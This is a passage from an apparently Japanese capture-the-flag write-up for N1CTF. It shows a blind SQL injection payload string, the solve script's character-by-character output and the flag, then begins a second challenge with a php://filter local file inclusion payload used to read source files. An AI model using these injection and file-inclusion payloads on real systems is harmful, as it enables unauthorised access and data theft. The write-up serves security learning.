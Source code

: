 `return "--if((select (1, %s, 0, 0) > (select * from (select * from users) x)),8*8*7+8+7+6,8*8*7+6+6+7)" % (encode((res + chr(c)).ljust(100, '~')))` を `return "--if((select (1, %s, (%s), 1000000000000) > (select * from (select * from users) x)),8*8*7+8+7+6,8*8*7+6+6+7)" % (encode('VENENO_ADMIN'), encode((res + chr(c)).ljust(100, '~')))` に置き換えるとフラグが得られました。

```
$ python2 solve.py
'H'
'HA'
'HAH'
'HAHA'
'HAHAH'
'HAHAH7'
'HAHAH77'
'HAHAH777'
'HAHAH777A'
'HAHAH777A7'
'HAHAH777A7A'
'HAHAH777A7AH'
'HAHAH777A7AHA'
'HAHAH777A7AHA7'
'HAHAH777A7AHA77'
'HAHAH777A7AHA777'
'HAHAH777A7AHA7777'
'HAHAH777A7AHA77777'
'HAHAH777A7AHA77777A'
'HAHAH777A7AHA77777AA'
'HAHAH777A7AHA77777AAA'
'HAHAH777A7AHA77777AAAA'
```

```
N1CTF{hahah777a7aha77777aaaa}
```

## [Web 416] funning eating cms

> a strange online reservation system for restaurants,please hacking it
> http://47.52.152.93:20000/
> http://47.52.152.93:23333/

いろいろ試していると、`user.php` で `/user.php?page=php://filter/convert.base64-encode/resource=guest` のように LFI ができることが分かりました。これを使ってサービスのソースコードを手に入れます。

`index.php`

```php
<?php
require_once "function.php";
if(isset($_SESSION['login'] )){
    Header("Location: user.php?page=info");
}
else{
    include "templates/index.html";
}
?>
```
